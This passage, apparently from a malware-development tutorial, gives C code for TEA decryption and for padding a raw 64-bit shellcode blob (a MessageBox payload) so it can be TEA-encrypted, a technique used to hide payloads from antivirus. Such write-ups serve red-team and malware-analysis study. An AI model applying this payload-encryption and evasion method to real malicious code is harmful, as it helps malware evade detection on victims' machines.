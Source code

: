 ```cpp

  *(unsigned int *)data = v0;
  *(unsigned int *)(data + 4) = v1;
}

void tea_decrypt(unsigned char *data, unsigned char *key) {
  unsigned int i;
  unsigned char x = 0;

  unsigned int delta = 0x9e3779b9;
  unsigned int sum = delta * ROUNDS;

  unsigned int v0 = *(unsigned int *)data;
  unsigned int v1 = *(unsigned int *)(data + 4);

  for (i = 0; i < ROUNDS; i++) {
    v1 -= (((v0 << 4) ^ (v0 >> 5)) + v0) ^ (sum + ((unsigned int *)key)[(sum >> 11) & 3]);
    sum -= delta;
    v0 -= (((v1 << 4) ^ (v1 >> 5)) + v1) ^ (sum + ((unsigned int *)key)[sum & 3]);
  }

  *(unsigned int *)data = v0;
  *(unsigned int *)(data + 4) = v1;
}
```



So, for encryption shellcode we can just run something like this:    

```cpp
unsigned char key[] = "\x6d\x65\x6f\x77\x6d\x65\x6f\x77\x6d\x65\x6f\x77\x6d\x65\x6f\x77";
unsigned char my_payload[] =
// 64-bit meow-meow messagebox
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";

int len = sizeof(my_payload);
int pad_len = (len + 8 - (len % 8)) & 0xFFF8;

unsigned char padded[pad_len];
memset(padded, 0x90, pad_len); // pad the shellcode with 0x90
memcpy(padded, my_payload, len); // copy the shellcode to the padded buffer

```
